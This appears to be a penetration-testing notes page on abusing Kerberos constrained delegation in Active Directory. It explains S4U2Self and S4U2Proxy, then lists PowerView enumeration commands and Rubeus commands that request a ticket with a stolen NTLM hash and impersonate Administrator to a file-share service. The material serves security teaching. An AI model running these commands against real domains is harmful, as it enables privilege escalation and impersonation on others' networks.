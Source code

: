 # Constrained Delegation

## Constrained Delegation

Created to solve the double hop kerberos issue.  
  
Since the Kerberos protocol does not natively support constrained delegation by default,Microsoft released two extensions for this feature: S4U2Self and S4U2Proxy  
  
 Together, these extensions solve the double-hop issue and limit access to only the desired backend service.  
  
 Constrained delegation is configured on the computer or user object. It is set through the msdsallowedtodelegateto property by specifying the SPNs the current object is allowed constraineddelegation against.  
  
- S4U2self = Allows a service to obtain a forwardable TGS to itself on behalf of the user  
- S4U2proxy = Allows a service to obtain a TGS to a second service on behalf of the user  
  
Contrained Delegation can be used on both **Users and Computers Objects**

![](../../../../.gitbook/assets/image%20%28312%29.png)

### Powerview Enumeration 

```csharp
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth
```

![](../../../../.gitbook/assets/image%20%28294%29.png)

### Rubeus

#### Request a TGT for the compromised account

```csharp
.\Rubeus.exe asktgt /user:web01 /domain:crook.badcorp.local /rc4:<NTLM Hash> /outfile:t.kirbi
```

#### Inject the ticket 

```csharp
.\rubeus.exe s4u /user:web01$ /ticket:2.kirbi /impersonateuser:Administrator /msdsspn:"CIFS/HELPDESK" /ptt
```

